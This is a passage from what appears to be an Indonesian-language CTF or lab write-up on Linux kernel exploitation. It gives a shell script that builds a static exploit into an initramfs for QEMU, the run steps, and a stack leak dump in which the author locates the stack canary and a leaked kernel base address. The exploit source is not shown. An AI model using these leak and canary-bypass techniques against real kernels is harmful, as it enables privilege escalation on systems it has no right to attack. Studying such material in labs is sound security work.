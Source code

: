 ```
#!/bin/sh
gcc -o exploit  exploit.c -static $1
mv ./exploit ./initramfs
cd initramfs
find . -print0 \
| cpio --null -ov --format=newc \
| gzip -9 > initramfs.cpio.gz
mv ./initramfs.cpio.gz ../

```

jalankan dengan cara:

```
./compress.sh
```

setelah itu qemu akan terbuka dan masuk kedalam lingkungan kernel yang berjalan pada busybox, kita cukup jalankan saja:

```
./exploit
```
offset cookie ada pada offset ke-16, sedangkan alamat basis kernel yang kita bocorkan ada pada offset ke-38

```
/ $ ./fuzz
0: 0xffff88800781f500
1: 0xffffc900001c7e40
2: 0x6beb49bb0d5a1800
3: 0xffff888006876310
4: 0xffffc900001c7e68
5: 0x0000000000000004
6: 0xffff888006876300
7: 0xffffc900001c7ef0
8: 0xffff888006876300
9: 0xffffc900001c7e80
10: 0xffffffff8184e047
11: 0xffffffff8184e047
12: 0xffff888006876300
13: 0x0000000000000000
14: 0x00007fffb0d15fc0
15: 0xffffc900001c7ea0
16: 0x6beb49bb0d5a1800
17: 0x0000000000000190
18: 0x0000000000000000
19: 0xffffc900001c7ed8
20: 0xffffffff816d51ff
21: 0xffff888006876300
22: 0xffff888006876300
23: 0x00007fffb0d15fc0
24: 0x0000000000000190
25: 0x0000000000000000
26: 0xffffc900001c7f20
27: 0xffffffff816d5727
28: 0xffffc900001c7f08
29: 0x0000000000000000
30: 0x6beb49bb0d5a1800
31: 0xffffc900001c7f58
32: 0x0000000000000000
33: 0x0000000000000000
34: 0x0000000000000000
35: 0xffffc900001c7f30
36: 0xffffffff816d577a
37: 0xffffc900001c7f48
```